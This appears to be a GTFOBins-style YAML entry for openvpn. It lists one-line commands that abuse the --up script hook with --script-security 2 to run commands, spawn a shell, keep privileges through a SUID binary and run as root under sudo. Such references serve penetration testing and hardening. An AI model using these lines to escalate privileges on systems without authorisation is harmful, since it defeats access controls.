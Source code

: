 ```yaml
---
functions:
  command:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
  shell:
    - code: |
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c sh"
  suid:
    - code: |
        COMMAND='id'
        openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -p -c \"$COMMAND\""
  sudo:
    - code: |
        COMMAND='id'
        sudo openvpn --dev tun0 --script-security 2 --up "/usr/bin/sh -c \"$COMMAND\""
---
```

